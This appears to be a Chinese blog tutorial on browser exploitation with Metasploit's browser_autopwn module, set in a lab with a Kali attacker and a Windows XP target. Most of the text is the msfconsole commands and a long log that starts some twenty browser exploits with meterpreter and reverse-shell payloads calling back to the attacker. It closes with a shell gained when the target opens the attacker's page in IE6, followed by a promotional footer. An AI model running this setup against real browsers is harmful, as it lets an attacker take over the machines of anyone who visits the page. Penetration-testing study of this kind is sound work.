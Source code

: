 ```yaml
---
layout: post
category: binghe-code-hack
title: 浏览器渗透
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 浏览器渗透
lock: need
---
```


# 浏览器渗透

攻击机： Kali 192.168.175.128

靶机： WinXP 192.168.175.130

## Browser autopwn攻击 

Metasploit中提供了一个browser autopwn模块，这是一个可以用来对各种浏览器进行测试和渗透的自动化向量。

autopwn指的是自动对目标进行渗透。autopwn模块在配置了所有要使用的浏览器渗透脚本后，将处于监听模式下。然后，它便等待着一个即将到来的连接。一旦连接建立，它就会发送一系列与目标浏览器相匹配的渗透模块，具体发送哪个模块要取决于受害者浏览器的类型。无论目标系统上运行着什么浏览器，只要存在漏洞，autopwn模块就能自动发起攻击。

Browser autopwn原理图：

![img](https://img-blog.csdnimg.cn/20190124193431777.png)

## 使用Metasploit的Browser autopwn模块进行浏览器攻击

这里，我们先打开msf终端

```bash
msfconsole
```

然后在msf终端依次输入如下命令：

```bash
use auxiliary/server/browser_autopwn
show options
set LHOST 192.168.175.128
set URIPATH /
set SRVPORT 80
exploit
```

其中，我们需要制定LHOST、URIPATH、SRVPORT参数。SRVPORT参数制定了渗透服务器使用的端口。这个端口建议为80或者443。URIPATH是存储各种渗透模块的目录路径，它的值被指定为/，表示根目录。设定好这些参数之后，就可以输入命令exploit进行攻击了。

具体如下：

```bash
msf5 > use auxiliary/server/browser_autopwn
msf5 auxiliary(server/browser_autopwn) > show options

Module options (auxiliary/server/browser_autopwn):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   LHOST                     yes       The IP address to use for reverse-connect payloads
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer  Start a bunch of modules and direct clients to appropriate exploits


msf5 auxiliary(server/browser_autopwn) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 auxiliary(server/browser_autopwn) > set URIPATH /
URIPATH => /
msf5 auxiliary(server/browser_autopwn) > set SRVPORT 80
SRVPORT => 80
msf5 auxiliary(server/browser_autopwn) > exploit
[*] Auxiliary module running as background job 0.

[*] Setup
msf5 auxiliary(server/browser_autopwn) > 
[*] Starting exploit modules on host 192.168.175.128...
[*] ---

[*] Starting exploit android/browser/webview_addjavascriptinterface with payload android/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/Kwhc
[*] Local IP: http://192.168.175.128:80/Kwhc
[*] Server started.
[*] Starting exploit multi/browser/firefox_proto_crmfrequest with payload generic/shell_reverse_tcp
[*] Using URL: http://0.0.0.0:80/vzkqpBnTX
[*] Local IP: http://192.168.175.128:80/vzkqpBnTX
[*] Server started.
[*] Starting exploit multi/browser/firefox_tostring_console_injection with payload generic/shell_reverse_tcp
[*] Using URL: http://0.0.0.0:80/JLQaHqdG
[*] Local IP: http://192.168.175.128:80/JLQaHqdG
[*] Server started.
[*] Starting exploit multi/browser/firefox_webidl_injection with payload generic/shell_reverse_tcp
[*] Starting exploit multi/browser/java_atomicreferencearray with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/NObgkNaafM
[*] Local IP: http://192.168.175.128:80/NObgkNaafM
[*] Server started.
[*] Starting exploit multi/browser/java_jre17_jmxbean with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/oAXSrii
[*] Local IP: http://192.168.175.128:80/oAXSrii
[*] Server started.
[*] Starting exploit multi/browser/java_jre17_provider_skeleton with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/rgkOUbVZ
[*] Local IP: http://192.168.175.128:80/rgkOUbVZ
[*] Server started.
[*] Starting exploit multi/browser/java_jre17_reflection_types with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/zOAZWwwA
[*] Local IP: http://192.168.175.128:80/zOAZWwwA
[*] Server started.
[*] Starting exploit multi/browser/java_rhino with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/KMZSsvbLbdEAo
[*] Local IP: http://192.168.175.128:80/KMZSsvbLbdEAo
[*] Server started.
[*] Starting exploit multi/browser/java_verifier_field_access with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/zHZYuGKZAKbZ
[*] Local IP: http://192.168.175.128:80/zHZYuGKZAKbZ
[*] Server started.
[*] Starting exploit multi/browser/opera_configoverwrite with payload generic/shell_reverse_tcp
[*] Using URL: http://0.0.0.0:80/WZzpMp
[*] Local IP: http://192.168.175.128:80/WZzpMp
[*] Server started.
[*] Starting exploit windows/browser/adobe_flash_mp4_cprt with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/lZvfdntlB
[*] Local IP: http://192.168.175.128:80/lZvfdntlB
[*] Server started.
[*] Starting exploit windows/browser/adobe_flash_rtmp with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/pgqDFJQG
[*] Local IP: http://192.168.175.128:80/pgqDFJQG
[*] Server started.
[*] Starting exploit windows/browser/ie_cgenericelement_uaf with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/MERLTwZVxeoDI
[*] Local IP: http://192.168.175.128:80/MERLTwZVxeoDI
[*] Server started.
[*] Starting exploit windows/browser/ie_createobject with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/TpOcHC
[*] Local IP: http://192.168.175.128:80/TpOcHC
[*] Server started.
[*] Starting exploit windows/browser/ie_execcommand_uaf with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/XaoAp
[*] Local IP: http://192.168.175.128:80/XaoAp
[*] Server started.
[*] Starting exploit windows/browser/mozilla_nstreerange with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/GAxmRqM
[*] Local IP: http://192.168.175.128:80/GAxmRqM
[*] Server started.
[*] Starting exploit windows/browser/ms13_080_cdisplaypointer with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/dWTagnZBC
[*] Local IP: http://192.168.175.128:80/dWTagnZBC
[*] Server started.
[*] Starting exploit windows/browser/ms13_090_cardspacesigninhelper with payload windows/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:80/nfeHDD
[*] Local IP: http://192.168.175.128:80/nfeHDD
[*] Server started.
[*] Starting exploit windows/browser/msxml_get_definition_code_exec with payload windows/meterpreter/reverse_tcp
[*] Starting handler for windows/meterpreter/reverse_tcp on port 3333
[*] Starting handler for generic/shell_reverse_tcp on port 6666
[*] Started reverse TCP handler on 192.168.175.128:3333 
[*] Using URL: http://0.0.0.0:80/NiTvaxR
[*] Local IP: http://192.168.175.128:80/NiTvaxR
[*] Server started.
[*] Using URL: http://0.0.0.0:80/dIoa
[*] Local IP: http://192.168.175.128:80/dIoa
[*] Server started.
[*] Starting handler for java/meterpreter/reverse_tcp on port 7777
[*] Started reverse TCP handler on 192.168.175.128:6666 
[*] Started reverse TCP handler on 192.168.175.128:7777 

[*] --- Done, found 20 exploit modules

[*] Using URL: http://0.0.0.0:80/
[*] Local IP: http://192.168.175.128:80/
[*] Server started.
```

现在任何一个连接到攻击机80端口的目标都会遭到一个基于它所使用的浏览器的渗透攻击。当有受害者访问我们的IP地址时，browser autopwn模块就会向其发送各种漏洞模块，直到获得Meterpreter控制权限为止。

此时，我们在靶机WinXP上打开IE 6访问连接http://192.168.175.128，

这样，我们就可以拿到靶机的Shell了

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
